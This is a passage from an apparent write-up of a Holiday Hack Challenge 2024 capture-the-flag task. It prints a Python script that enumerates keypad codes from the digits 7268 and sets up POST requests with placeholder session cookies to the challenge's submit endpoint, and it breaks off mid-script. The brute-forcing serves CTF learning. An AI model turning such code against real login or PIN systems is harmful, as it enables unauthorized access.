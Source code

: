 >[!TIP] 
>As with many of these challenges, python code can be completed in other languages of your choice, and this is only one way to achieving this requirement. Here are a few examples in: 
>- [Bash](../../../Assets/code/act1/frosty-keypad/brtue-force-frosty-keypad.sh)
>- [Python](../../../Assets/code/act1/frosty-keypad/brute-force-frosty-keypad.py)
>- [Go](../../../Assets/code/act1/frosty-keypad/brute-force-frosty-keypad.go)

```python
import time
import requests
from itertools import permutations

def generate_valid_codes():
    # Base numbers that must be used
    base_nums = '7268'
    # Create a list of all possible digits we can use (including duplicates)
    possible_digits = '72687268'  # Each number can be used up to twice
    
    # Keep track of valid codes
    valid_codes = set()
    
    # Generate all 5-digit permutations
    for perm in permutations(possible_digits, 5):
        code = ''.join(perm)
        # Check if all required digits are present at least once
        if all(d in code for d in base_nums):
            valid_codes.add(code)
    
    return sorted(list(valid_codes))

def make_custom_request():
	id = "<insert-uuid>"
    cookie = "<insert-cookie>"

    # Target URL
    url = f"https://hhc24-frostykeypad.holidayhackchallenge.com/submit?id={id}"

    # Headers exactly as shown in the request
    headers = {
        'authority': 'hhc24-frostykeypad.holidayhackchallenge.com',
        'method': 'POST',
        'path': f"/submit?id={id}",
        'scheme': 'https',
        'Accept': '*/*',
        'Accept-Encoding': 'gzip, deflate, br, zstd',
        'Accept-Language': 'en-US,en;q=0.9',
        'Cache-Control': 'no-cache',
        'Content-Type': 'application/json',
        'Origin': 'https://hhc24-frostykeypad.holidayhackchallenge.com',
        'Pragma': 'no-cache',
        'Priority': 'u=1, i',
        'Referer': 'https://hhc24-frostykeypad.holidayhackchallenge.com/',
        'Sec-Ch-Ua': '"Microsoft Edge";v="131", "Chromium";v="131", "Not_A Brand";v="24"',
        'Sec-Ch-Ua-Mobile': '?0',
        'Sec-Ch-Ua-Platform': '"Windows"',
        'Sec-Fetch-Dest': 'empty',
        'Sec-Fetch-Mode': 'cors',
        'Sec-Fetch-Site': 'same-origin',
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36 Edg/131.0.0.0'
    }

    # Cookie as shown in the request
    cookies = {
```